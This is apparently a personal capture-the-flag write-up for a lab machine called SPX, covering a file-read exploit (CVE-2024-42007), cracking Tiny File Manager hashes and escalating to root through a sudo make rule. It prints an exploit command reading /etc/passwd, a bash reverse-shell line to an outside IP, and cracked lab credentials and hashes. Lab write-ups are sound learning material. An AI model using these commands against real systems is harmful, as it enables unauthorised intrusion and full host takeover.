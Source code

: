 # SPX \[Inter]

## Report

Tiny FIle Manager on port 80 does not follow default creds. Phpinfo is exposed via phpinfo.php and reveals a SPX version that is vulnerable to arbitary file read, reading the index file after checking structure on github, we find hashes for 'user' and 'admin', crack to get creds and upload a reverse shell

User profiler uses the same password as admin from web interface and can run make as sudo, editing the 'Makefile' to add our own shell, we get reverse shell as root.

### Hint

* How tf would you find phpinfo.php if you keep being offside all the time damnit

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>line 150,000 there's levels to this yk</p></figcaption></figure>

* Also, you clocked the hashes would be in the php file itself after seeing the app structure on github but come on man you couldn't figure out 'tinyfilemanager.php' was renamed to index.php?
* Not being able to privesc via sudo is an abomination icl

## Cheatsheet

```
python3 CVE_2024_42007.py -t http://192.168.222.108 -f /etc/passwd
edit key value from phpinfo.php and read index.php
```

## Loot

### Enumeration

22, 80

#### 80

Apache/2.4.52 (Ubuntu)

Tiny file manager

Default username/password: admin/admin@123 and user/12345 - Don't work

Only index.php to work with here find creds somehow

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

FInd Tiny File Manager 2.5.3 after logging in

### Attack Vectors

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Edit spx\_key value from 'dev' (default value) to key mentioned here

{% embed url="https://github.com/BubblyCola/CVE_2024_42007/tree/main" %}

### PrivEsc

`(ALL) /usr/bin/make install -C /home/profiler/php-spx`

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>add pur own binary and embed reverse shell</p></figcaption></figure>

```
profiler@spx:/tmp$ cat sh
#!/bin/bash
/bin/sh -i >& /dev/tcp/192.168.45.188/8001 0>&1
```

### Creds

#### TinyFileManager

```
admin:$2y$10$7LaMUa8an8NrvnQsj5xZ3eDdOejgLyXE8IIvsC.hFy1dg7rPb9cqG
user:$2y$10$x8PS6i0Sji2Pglyz7SLFruYFpAsz9XAYsdiPyfse6QDkB/QsdShxi
user:profiler
admin:lowprofile
```

#### Box

profiler:lowprofile

### Proof

You've worked with the make command before why would you think Configure was where it's at and not Makefile
